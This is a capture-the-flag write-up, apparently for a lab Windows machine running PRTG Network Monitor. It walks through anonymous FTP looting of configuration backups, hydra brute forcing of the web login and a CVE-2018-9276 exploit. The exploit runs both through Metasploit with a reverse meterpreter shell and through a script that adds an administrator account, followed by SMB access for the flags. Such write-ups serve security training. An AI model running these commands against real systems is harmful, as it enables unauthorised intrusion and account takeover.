



# Machine Info
**IP**: 10.10.10.152

**OS**: Windows

**Difficulty**: Easy

# Passive Enumeration I

## **nmap**

```
$ nmap -T4 -p- 10.10.10.152
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 23:55 EDT
Nmap scan report for 10.10.10.152
Host is up (0.065s latency).
Not shown: 65522 closed ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

$ sudo nmap -T4 -p21,80,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -A -O 10.10.10.152
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-10 18:17 EDT
Nmap scan report for 10.10.10.152
Host is up (0.061s latency).

PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-03-19  12:18AM                 1024 .rnd
| 02-25-19  10:15PM       <DIR>          inetpub
| 07-16-16  09:18AM       <DIR>          PerfLogs
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 build 10586 - 14393 (96%), Microsoft Windows Server 2016 (95%), Microsoft Windows 10 1507 (93%), Microsoft Windows 10 1507 - 1607 (93%), Microsoft Windows 10 1511 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2012 R2 Update 1 (93%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (93%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4m45s, deviation: 0s, median: 4m45s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-06-10T22:23:55
|_  start_date: 2021-06-10T22:17:25

TRACEROUTE (using port 21/tcp)
HOP RTT      ADDRESS
1   53.63 ms 10.10.16.1
2   28.83 ms 10.10.10.152
```
## **Enumerating FTP**

### **Banner Grabbing**
```
$ nc -vn 10.10.10.152 21
(UNKNOWN) [10.10.10.152] 21 (ftp) open
220 Microsoft FTP Service
```
### **Connecting to the server**
The nmap results identied that anonymous login is allowed to the FTP server and that's what we do.

```
$ ftp 10.10.10.152
Connected to 10.10.10.152.
220 Microsoft FTP Service
Name (10.10.10.152:prateek): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
```
Browsing through the directories, we can see the folder structure of a IIS webserver, the programs installed on the remote machine and the Users directory. The user flag is accessible inside the "Public" user directory and we can transfer the file to our local system to read the content.

```
ftp> cd Public
250 CWD command successful.
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
02-03-19  08:05AM       <DIR>          Documents
07-16-16  09:18AM       <DIR>          Downloads
07-16-16  09:18AM       <DIR>          Music
07-16-16  09:18AM       <DIR>          Pictures
06-11-21  01:01AM                   82 tester.txt
02-03-19  12:35AM                   33 user.txt
07-16-16  09:18AM       <DIR>          Videos
226 Transfer complete.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
WARNING! 1 bare linefeeds received in ASCII mode
File may not have transferred correctly.
226 Transfer complete.
33 bytes received in 0.13 secs (0.2499 kB/s)
```
Aside from the user flag, we also found a configuration file for the webserver inside the C:\Windows directory.
```
ftp> cd ../Windows
250 CWD command successful.
ftp> ls
200 PORT command successful.
150 Opening ASCII mode data connection.
11-20-16  09:53PM       <DIR>          ADFS
07-16-16  09:18AM       <DIR>          AppCompat
11-20-16  09:59PM       <DIR>          AppPatch
02-25-19  08:07AM       <DIR>          assembly
07-16-16  09:13AM                61440 bfsvc.exe
07-16-16  09:18AM       <DIR>          Boot
06-10-21  06:19PM                67584 bootstat.dat
07-16-16  09:18AM       <DIR>          Branding
11-20-16  10:36PM       <DIR>          CbsTemp
02-03-19  08:05AM       <DIR>          debug
07-16-16  09:18AM       <DIR>          diagnostics
07-16-16  09:18AM       <DIR>          drivers
02-03-19  08:05AM                 4056 DtcInstall.log
11-20-16  09:53PM       <DIR>          en-US
11-20-16  09:59PM       <DIR>          Fonts
11-20-16  10:09PM       <DIR>          Globalization
11-20-16  09:53PM       <DIR>          Help
02-25-19  10:15PM                12899 iis.log
07-16-16  09:18AM       <DIR>          IME
02-25-19  10:56PM       <DIR>          INF
07-16-16  09:18AM       <DIR>          InfusedApps
07-16-16  09:18AM       <DIR>          InputMethod
07-16-16  09:18AM       <DIR>          L2Schemas
07-16-16  09:18AM       <DIR>          LiveKernelReports
11-20-16  10:15PM       <DIR>          Logs
11-20-16  10:15PM                 1344 lsasetup.log
07-16-16  09:12AM                43131 mib.bin
06-10-21  06:27PM       <DIR>          Microsoft.NET
07-16-16  09:18AM       <DIR>          Migration
11-20-16  10:12PM       <DIR>          OCR
02-03-19  08:05AM       <DIR>          Panther
07-16-16  09:18AM       <DIR>          PLA
11-20-16  10:36PM       <DIR>          PolicyDefinitions
07-16-16  09:18AM       <DIR>          Provisioning
02-25-19  10:54PM              1189697 PRTG Configuration.dat
07-16-16  09:13AM               320512 regedit.exe
06-10-21  06:17PM       <DIR>          Registration
07-16-16  09:18AM       <DIR>          RemotePackages
06-10-21  06:28PM       <DIR>          rescache
07-16-16  09:18AM       <DIR>          Resources
02-25-19  11:49PM                  140 restart.bat
07-16-16  09:18AM       <DIR>          SchCache
07-16-16  09:18AM       <DIR>          schemas
07-16-16  09:18AM       <DIR>          security
11-20-16  10:15PM       <DIR>          ServiceProfiles
11-20-16  09:53PM       <DIR>          servicing
07-16-16  09:19AM       <DIR>          Setup
02-03-19  08:05AM                 6894 setupact.log
11-20-16  10:15PM                    0 setuperr.log
11-20-16  10:09PM       <DIR>          SKB
02-03-19  12:13AM       <DIR>          SoftwareDistribution
11-20-16  10:12PM       <DIR>          Speech
11-20-16  10:12PM       <DIR>          Speech_OneCore
11-20-16  09:59PM               130560 splwow64.exe
07-16-16  09:18AM       <DIR>          System
07-16-16  09:16AM                  219 system.ini
06-10-21  06:26PM       <DIR>          System32
07-16-16  09:18AM       <DIR>          SystemResources
02-25-19  10:56PM       <DIR>          SysWOW64
11-20-16  10:15PM       <DIR>          Tasks
06-11-21  01:01AM       <DIR>          Temp
07-16-16  09:18AM       <DIR>          tracing
07-16-16  09:18AM       <DIR>          Vss
07-16-16  09:18AM       <DIR>          Web
07-16-16  09:16AM                   92 win.ini
06-11-21  06:54AM                  275 WindowsUpdate.log
02-25-19  11:39PM       <DIR>          WinSxS
226 Transfer complete.
ftp> get "PRTG Configuration.dat"
local: PRTG Configuration.dat remote: PRTG Configuration.dat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
1189697 bytes received in 0.86 secs (1.3159 MB/s)
```
The configuration file has tags for password, but none of them contain any details.

## **Enumerating Samba**

### Version
Metasploit identifies the following details about the SMB server version.
```
msf6 auxiliary(scanner/smb/smb_version) > run

[*] 10.10.10.152:445      - SMB Detected (versions:1, 2, 3) (preferred dialect:SMB 3.1.1) (compression capabilities:) (encryption capabilities:AES-128-CCM) (signatures:optional) (uptime:5h 17m 1s) (guid:{fa07d566-b6a5-483f-8efe-53e08c6dafb5}) (authentication domain:NETMON)
[+] 10.10.10.152:445      -   Host is running Windows 2016 Standard (build:14393) (name:NETMON)
[*] 10.10.10.152:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
### Listing Shares
```
$ smbclient -L \\\\10.10.10.152\\
Enter WORKGROUP\prateek's password: 
session setup failed: NT_STATUS_ACCESS_DENIED
```
As we do not have access to view the SMB share, we are not able to enumerate it further.

## **Enumerating HTTP**
The webserver hosts a PRTG Network Monitor (Netmon) site and presents us with a login page on going to it.



The footer shows that the server is running Paessler PRTG Network Monitor version 18.1.37.13946. 

### **Wappalyer and whatweb**
Wappalyzer fails to identify anything, while whatweb only identifies the PRTG Network Monitor version.

```
$ whatweb http://10.10.10.152/
http://10.10.10.152/ [302 Found] Country[RESERVED][ZZ], HTTPServer[PRTG/18.1.37.13946], IP[10.10.10.152], PRTG-Network-Monitor[18.1.37.13946,PRTG], RedirectLocation[/index.htm], UncommonHeaders[x-content-type-options], X-XSS-Protection[1; mode=block]
```
At this point, with the amount of information available I started searching for possible vulnerabilities to exploit. 

# Vulnerability
Searching for PRTG Network Monitor related vulnerabilities identifies a metasploit [module](https://www.rapid7.com/db/modules/exploit/windows/http/prtg_authenticated_rce/) and an exploitDB [script](https://www.exploit-db.com/exploits/46527). However, both of these exploits require us to authenticate against the server and until we have the correct credentials the exploits will not work. So, we again go back to enumerating the FTP share and try to brute force the login page.

# Passive Enumeration II
### **Bruteforce Password I**
When we enter a set of credentials, a request is sent to http://10.10.10.152/public/checklogin.htm with POST parameters of username, password and loginurl. I started a hydra scan against these values using rockyou.txt and username as 'prtgadmin'.

```
$ hydra -T4 -l prtgadmin -P /usr/share/wordlists/rockyou.txt 10.10.10.152 http-post-form "/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again\!"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-11 19:38:48
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking http-post-form://10.10.10.152:80/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again!
```
As the brute-force was in progress, I searched for default credentials for the PRTG Network Monitor in the meanwhile. A reddit [post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) identified the following directory, C:\ProgramData\Paessler\PRTG Network Monitor\, as storing configuration details for the application. So, we go back to the FTP share to check if the contents are available to us.

### **Enumerating FTP again**
The directory, C:\ProgramData\Paessler\PRTG Network Monitor\, is accessible and contains the  previous version and backup of the configuration file that we found earlier.

```
ftp> cd "\ProgramData\Paessler\PRTG Network Monitor"
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
06-10-21  06:59PM       <DIR>          Configuration Auto-Backups
06-10-21  08:00PM       <DIR>          Log Database
02-03-19  12:18AM       <DIR>          Logs (Debug)
02-03-19  12:18AM       <DIR>          Logs (Sensors)
02-03-19  12:18AM       <DIR>          Logs (System)
06-11-21  12:00AM       <DIR>          Logs (Web Server)
06-10-21  08:01PM       <DIR>          Monitoring Database
02-25-19  10:54PM              1189697 PRTG Configuration.dat
02-25-19  10:54PM              1189697 PRTG Configuration.old
07-14-18  03:13AM              1153755 PRTG Configuration.old.bak
06-11-21  08:59AM              1725718 PRTG Graph Data Cache.dat
02-25-19  11:00PM       <DIR>          Report PDFs
02-03-19  12:18AM       <DIR>          System Information Database
02-03-19  12:40AM       <DIR>          Ticket Database
02-03-19  12:18AM       <DIR>          ToDo Database
```
Fetching the two files and going through them, we find a password in the backup file.



However, using these credentials we are still unable to login and receive invalid credential error message. The hydra scan was unable to identify the correct credentials till now, so I stopped it and tried to create a wordlist from the password to use with hydra.

### **Custom Wordlist**
Using crunch, I generated a wordlist with the last two digits changing for different years.
```
$ crunch 13 13 -t PrTg@dmin20%% -l PrTg@dmin20aa -o ./password.txt                                                                                                 1 ⨯
Crunch will now generate the following amount of data: 1400 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100 

crunch: 100% completed generating output
```
### **Bruteforce II**
```
$ hydra -T4 -l prtgadmin -P password.txt 10.10.10.152 http-post-form "/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again\!" 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-11 20:16:27
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 100 login tries (l:1/p:100), ~25 tries per task
[DATA] attacking http-post-form://10.10.10.152:80/public/checklogin.htm:username=prtgadmin&password=^PASS^&loginurl=:Your login has failed. Please try again!
[80][http-post-form] host: 10.10.10.152   login: prtgadmin   password: PrTg@dmin2019
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-11 20:16:42
```
This time hydra identifies the correct credentials and we are able to login to the website.



# Exploitation using Metasploit
The module identified during vulnerability search works perfectly and we get a SYSTEM shell.

```
msf6 exploit(windows/http/prtg_authenticated_rce) > options 

Module options (exploit/windows/http/prtg_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   ADMIN_PASSWORD  PrTg@dmin2019    yes       The password for the specified username
   ADMIN_USERNAME  prtgadmin        yes       The username to authenticate as
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          10.10.10.152     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                            no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf6 exploit(windows/http/prtg_authenticated_rce) > exploit 

[*] Started reverse TCP handler on 10.10.16.173:4444 
[+] Successfully logged in with provided credentials
[+] Created malicious notification (objid=2018)
[+] Triggered malicious notification
[+] Deleted malicious notification
[*] Waiting for payload execution.. (30 sec. max)
[*] Sending stage (175174 bytes) to 10.10.10.152
[*] Meterpreter session 1 opened (10.10.16.173:4444 -> 10.10.10.152:62967) at 2021-06-11 09:59:28 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
# Manual Exploitation w/o Metasploit
Trying to run the script downloaded from the site or copied from the exploitDB directory on the Kali system throws the below error.

```
$ ./exploit.sh
zsh: ./exploit.sh: bad interpreter: /bin/bash^M: no such file or directory
```
This error is simply due to the file format. Changing the file from DOS to Unix format resolves the error.

```
$ dos2unix exploit.sh                                                                                                                                        127 ⨯ 2 ⚙
dos2unix: converting file exploit.sh to Unix format...
$ ./exploit.sh
[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 
 EXAMPLE USAGE: ./prtg-exploit.sh -u http://10.10.10.10 -c "_ga=GA1.4.XXXXXXX.XXXXXXXX; _gid=GA1.4.XXXXXXXXXX.XXXXXXXXXXXX; OCTOPUS1813713946=XXXXXXXXXXXXXXXXXXXXXXXXXXXXX; _gat=1" 
```
To run the script we need the cookies from the website after logging in. 

```
$ ./exploit.sh -u http://10.10.10.152 -c "_ga=GA1.4.939709617.1623416767; _gid=GA1.4.1182283071.1623416767; OCTOPUS1813713946=ezYzRTBGRkQ1LTgzQUMtNDFFNy05RkFFLTQ2Qjc0MjQ2MjlFMX0%3D;"

[+]#########################################################################[+] 
[*] Authenticated PRTG network Monitor remote code execution                [*] 
[+]#########################################################################[+] 
[*] Date: 11/03/2019                                                        [*] 
[+]#########################################################################[+] 
[*] Author: https://github.com/M4LV0   lorn3m4lvo@protonmail.com            [*] 
[+]#########################################################################[+] 
[*] Vendor Homepage: https://www.paessler.com/prtg                          [*] 
[*] Version: 18.2.38                                                        [*] 
[*] CVE: CVE-2018-9276                                                      [*] 
[*] Reference: https://www.codewatch.org/blog/?p=453                        [*] 
[+]#########################################################################[+] 

# login to the app, default creds are prtgadmin/prtgadmin. once athenticated grab your cookie and use it with the script.
# run the script to create a new user 'pentest' in the administrators group with password 'P3nT3st!' 

[+]#########################################################################[+] 

 [*] file created 
 [*] sending notification wait....

 [*] adding a new user 'pentest' with password 'P3nT3st' 
 [*] sending notification wait....

 [*] adding a user pentest to the administrators group 
 [*] sending notification wait....


 [*] exploit completed new user 'pentest' with password 'P3nT3st!' created have fun! 
```

With the successful execution of the exploit, a new user is created on the target system with administrator privilege which we can use to access the root flag.

## **Using SMB**
During recon, we had found that the system had a SMB share that was acccessible to authenticated users only. Now that we have credentials, we can try to connect to the share and gain access to the system flag.

```
$ smbclient --user=pentest -L \\\\10.10.10.152\\                                                                                                               1 ⨯ 2 ⚙
Enter WORKGROUP\pentest's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.10.152 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
$ smbclient --user=pentest \\\\10.10.10.152\\C$                                                                                                                    2 ⚙
Enter WORKGROUP\pentest's password: 
Try "help" to get a list of possible commands.
smb: \> cd Users
smb: \Users\> ls
  .                                  DR        0  Sun Feb  3 07:08:34 2019
  ..                                 DR        0  Sun Feb  3 07:08:34 2019
  Administrator                       D        0  Mon Feb 25 22:44:14 2019
  All Users                       DHSrn        0  Sat Jul 16 09:28:00 2016
  Default                           DHR        0  Sun Feb  3 07:05:38 2019
  Default User                    DHSrn        0  Sat Jul 16 09:28:00 2016
  desktop.ini                       AHS      174  Sat Jul 16 09:16:27 2016
  Public                             DR        0  Fri Jun 11 20:33:00 2021

		5114367 blocks of size 4096. 2944193 blocks available
smb: \Users\> cd Administrators
cd \Users\Administrators\: NT_STATUS_OBJECT_NAME_NOT_FOUND
smb: \Users\> cd Administrator
smb: \Users\Administrator\> ls
  .                                   D        0  Mon Feb 25 22:58:46 2019
  ..                                  D        0  Mon Feb 25 22:58:46 2019
  AppData                            DH        0  Sun Feb  3 07:08:34 2019
  Application Data                DHSrn        0  Sun Feb  3 07:08:34 2019
  Contacts                           DR        0  Sun Feb  3 07:08:38 2019
  Cookies                         DHSrn        0  Sun Feb  3 07:08:34 2019
  Desktop                            DR        0  Sat Feb  2 23:35:23 2019
  Documents                          DR        0  Sun Feb  3 07:08:39 2019
  Downloads                          DR        0  Sun Feb  3 07:08:39 2019
  Favorites                          DR        0  Sun Feb  3 07:08:38 2019
  Links                              DR        0  Sun Feb  3 07:08:39 2019
  Local Settings                  DHSrn        0  Sun Feb  3 07:08:34 2019
  Music                              DR        0  Sun Feb  3 07:08:39 2019
  My Documents                    DHSrn        0  Sun Feb  3 07:08:34 2019
  NetHood                         DHSrn        0  Sun Feb  3 07:08:34 2019
  NTUSER.DAT                        AHn   262144  Fri Jun 11 19:29:41 2021
  ntuser.dat.LOG1                   AHS    98304  Sun Feb  3 07:08:34 2019
  ntuser.dat.LOG2                   AHS   114688  Sun Feb  3 07:08:34 2019
  NTUSER.DAT{4c7e0ce3-af90-11e6-b29b-95ada9568386}.TM.blf    AHS    65536  Sun Feb  3 07:08:35 2019
  NTUSER.DAT{4c7e0ce3-af90-11e6-b29b-95ada9568386}.TMContainer00000000000000000001.regtrans-ms    AHS   524288  Sun Feb  3 07:08:35 2019
  NTUSER.DAT{4c7e0ce3-af90-11e6-b29b-95ada9568386}.TMContainer00000000000000000002.regtrans-ms    AHS   524288  Sun Feb  3 07:08:35 2019
  ntuser.ini                         HS       20  Sun Feb  3 07:08:34 2019
  Pictures                           DR        0  Sun Feb  3 07:08:38 2019
  PrintHood                       DHSrn        0  Sun Feb  3 07:08:34 2019
  Recent                          DHSrn        0  Sun Feb  3 07:08:34 2019
  Saved Games                        DR        0  Sun Feb  3 07:08:39 2019
  Searches                           DR        0  Sun Feb  3 07:08:39 2019
  SendTo                          DHSrn        0  Sun Feb  3 07:08:34 2019
  Start Menu                      DHSrn        0  Sun Feb  3 07:08:34 2019
  Templates                       DHSrn        0  Sun Feb  3 07:08:34 2019
  Videos                             DR        0  Mon Feb 25 22:06:13 2019

		5114367 blocks of size 4096. 2944193 blocks available
smb: \Users\Administrator\> cd Desktop
smb: \Users\Administrator\Desktop\> ls
  .                                  DR        0  Sat Feb  2 23:35:23 2019
  ..                                 DR        0  Sat Feb  2 23:35:23 2019
  desktop.ini                       AHS      282  Sun Feb  3 07:08:39 2019
  root.txt                            A       33  Sat Feb  2 23:35:24 2019

		5114367 blocks of size 4096. 2944193 blocks available
smb: \Users\Administrator\Desktop\> get root.txt 
getting file \Users\Administrator\Desktop\root.txt of size 33 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```

# Post-Exploitation
We can view the two flags on our local machine.
## **User Flag**
```
$ cat user.txt                           
dd****************************a5
```

## **Root flag**
```
$ cat root.txt                                                    
30****************************cc
```
# Notes
1. **Bruteforceing:** Use existing details to create password lists to bruteforce credentials.
2. **Thorough traversal of network shares:** Network shares may include hidden folders as well. So, even if only few directories are visible check if the target destination folder is accessible or not.
   
